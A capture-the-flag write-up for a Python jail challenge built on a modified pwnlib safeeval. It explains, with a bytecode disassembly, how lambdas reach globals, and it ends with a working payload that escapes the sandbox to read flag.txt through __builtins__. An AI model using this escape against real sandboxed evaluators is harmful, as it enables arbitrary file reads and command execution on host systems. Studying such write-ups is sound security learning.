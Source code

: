 # Turing-complete safeeval

```
score: 110
solved: xx/27
difficulty: easy
tags: jail, python
```

## Problem

Hey! We just made a brand new Turing-complete calculator based on a slight modification of pwnlib.util.safeeval to allow defining functions, because otherwise it would be Turing-incomplete.
⠀
Still we are allowing only pure functions, so there is no security implication right?
Connect via
nc safeeval.sdc.tf 1337
Calculator source code
calc.py

https://github.com/acmucsd/sdctf-2022/

## Got the flag

The original pwnlib.util.safeeval allows to run some basic calculation code, which makes it safe. But the calc.py allow two more instruction "MAKE_FUNCTION" and "CALL_FUNCTION", so we can create function, and call it.

Since it not allow to use `LOAD_NAME` to load the name of function to call (so cannot open("flag.txt")). But what function has no name in Python? it's lambda. So we can create a lambda, then do things we want inside the lambda.

Outside of function, `__import__("os")` is `LOAD_NAME`, but inside, it is `LOAD_GLOBAL` - which is allowed.

```
>>> import dis
>>> dis.dis('''(lambda : __import__("os"))()''')
  1           0 LOAD_CONST               0 (<code object <lambda> at 0x7f7f84f32500, file "<dis>", line 1>)
              2 LOAD_CONST               1 ('<lambda>')
              4 MAKE_FUNCTION            0
              6 CALL_FUNCTION            0
              8 RETURN_VALUE

Disassembly of <code object <lambda> at 0x7f7f84f32500, file "<dis>", line 1>:
  1           0 LOAD_GLOBAL              0 (__import__)
              2 LOAD_CONST               1 ('os')
              4 CALL_FUNCTION            1
              6 RETURN_VALUE

```

Using any trick (here https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-python/bypass-python-sandboxes#no-builtins) to get needed functions (open, or import os.system)

We used this: `(lambda s: s.__globals__['__builtins__'].open("flag.txt").read())(lambda f:f)` then got the flag.
